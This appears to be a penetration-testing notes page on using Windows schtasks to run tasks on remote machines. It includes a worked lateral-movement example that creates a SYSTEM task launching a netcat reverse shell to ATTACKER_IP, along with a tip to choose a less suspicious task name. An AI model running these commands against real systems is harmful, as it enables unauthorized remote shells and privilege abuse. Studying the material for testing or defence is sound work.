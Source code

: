 # schtasks

> The  `schtasks` command can be used to schedule commands and programs to run periodically or at a specific time.

This command generally requires the user to be a member of the **Administrators** group on the remote computer. Refer to the documentation for exact actions that requires this permissions.

It first connects to port 135, before continuing the process on a dynamic port from 49152 to 65535. Refer to the link labelled "_Port numbers used_" in the resources section below for more information.

### Basic commands

{% code title="schtasks create" %}
```powershell
schtasks /s TARGET /ru "SYSTEM" /create /tn "<taskname>" /tr "<command/payload to execute>" /u "<username>" /p "<password>" /sc ONCE /sd 01/01/1970 /st 00:00 
```
{% endcode %}

* `/create` : Specify to create task
* `/s`: Specifies the name or IP address of a remote computer (with or without backslashes. Default is the local computer
* `/ru` : Runs that task with permission of the specified user account
  * eg. `/ru "SYSTEM"` runs the task with the local system account, a highly privileged account used by the operating system and system services
* `/tn` : Specifies a name for the task
* `/tr` : Specifies the program or command that the task runs
* `/u` , `/p` : command will run as the permissions of the username, and password of the user respectively&#x20;
* `/sc` : To specify the schedule type. Refer to the documentation link below for the full list of values
  * In our case, the value `ONCE` specifies that the task runs once at a specified date and time (see `/sd` and `/st`  below)
  * The `/st` option have to be specified if the value `ONCE` is used
* `/sd`: Specifies the date on which the task schedule starts, defaults to the current date on the local computer
* `/st` : Specifies the start time for the task, using the 24-hour time format&#x20;

{% code title="schtasks run" %}
```powershell
schtasks /s TARGET /run /tn  "<taskname>" 
```
{% endcode %}

* `/run` : Specify to run task
* `/s` and `/tn`: Same as schtasks-create

### Example

Suppose we have breached a machine (`mach1`) on the AD network, along with credentials for an admin account (member of the **Administrators** group) that can be used on the target machine (`mach2`). We can perform the following sequence of commands to obtain a privileged reverse shell on the target machine (`mach2`). Let's assume the obtained admin credentials are: `admin` , `pass` .

{% code title="mach1 (breached machine)" %}
```powershell
# ofcourse we want to change the taskname  to something less suspicious 
C:\> schtasks /create /s mach2.xxxx /ru "SYSTEM" /u "admin" /p pass /tn "revshell" /tr "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP <PORT>" /sc ONCE /sd xxxx /st xxx 
C:\> schtasks /run /s mach2.xxxx  /tn  "revshell" 
```
{% endcode %}

#### Cleanup

```powershell
C:\> schtasks /S TARGET /TN "THMtask1" /DELETE /F
```

### Resources

1. Official `schtasks`  documentation:

{% embed url="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks-create" %}

2. Port numbers used:

{% embed url="https://serverfault.com/questions/899954/which-port-is-used-for-running-schtasks-exe-in-a-remote-computer" %}

